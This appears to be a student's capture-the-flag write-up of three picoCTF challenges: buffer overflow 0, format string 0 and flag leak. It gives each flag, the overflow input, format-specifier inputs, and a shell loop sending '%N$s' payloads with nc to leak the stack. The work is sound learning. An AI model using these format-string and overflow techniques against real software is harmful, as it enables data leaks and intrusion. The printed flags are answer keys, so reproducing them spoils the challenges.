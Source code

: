 # buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

**Solution:**
- The main idea is to overflow the buffer using the input so that we can get the flag.
- By looking at the code, I noticed `buf2` having a character limit of 16, so the input had to have more than 16 characters, but after a few trials I noticed that it overflowed only by entering a 20+ character string, and it triggered the flag.
```
$ nc saturn.picoctf.net 55911
Input: dddddddddddddddddddd
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

**Concepts learnt:** 
1. Buffer overflow, which is when more data than a buffer can hold is assigned to it which causes this data to spill to other storage or memory areas and can crash or expose vulnerabilities.

**Mistakes & other approaches:**
- Initially, I just put a large amount of characters as the input and it still worked, but to know the exact limit, going through the code is required.

**Resources:**
- https://nordvpn.com/cybersecurity/glossary/overflow-error
# format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`

**Solution:**
- The concept to know beforehand for this challenge is *format specifiers*. 
- By launching the challenge, by the line `giant bite`, and knowing from the hint that it was related to format specifiers (which in C, are represented by `%`), I picked the `Gr%114d_Cheese` for Patrick as it was meant to have a bigger size due to `%114d` which is a format specifier to hold a 114-digit long number.
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```

- Similar to last time, `Cla%sic_Che%s%steak` had multiple `%s`s which are used for strings and satisfy the requirement of a format specifier that the other options don't.
```
Gr                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

- Final output: 
```
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

**Concepts learnt:**
- Types of format specifiers in C

**Mistakes & other approaches:**
- First, I picked the `Breakf@st_Burger` for Patrick because I didn't realise another option would have had a bigger size, which was what it asked for, until I realised the format specifiers in the food names had a role.

**Resources:**
- https://www.geeksforgeeks.org/format-specifiers-in-c/

# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`

**Solution:**
- The challenge gave a source code and an executable file `vuln`.
- The vulnerability was present in the `printf` statement, where a format string wasn't specified. This could be exploited by entering in input such as `%x %x %x` or `%s` and the stack could be leaked. 
- To leak contents of the stack, we can dump it using a for loop that tests each position of the stack and greps for the flag. For this, I ran the command `for i in {0..30}; do echo "%$i\$s" | nc saturn.picoctf.net 50753 | grep { && echo "position: $i"; done`
```bash
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
position: 24
```
The position is 24 so the flag can also be retrieved by entering `%24$s` as input where it points to the 24th member of the stack and prints it as a string.

**Concepts learnt:**
1. Vulnerabilities when a format string specifier isn't used
2. Using shell to chain commands and test each position of the stack

**Mistakes & other approaches:**
- I also tried using GDB to disassemble the file and set a breakpoint after the command where the flag is read but ran into errors while trying to execute the file.

**Resources:**
- https://owasp.org/www-community/attacks/Format_string_attack

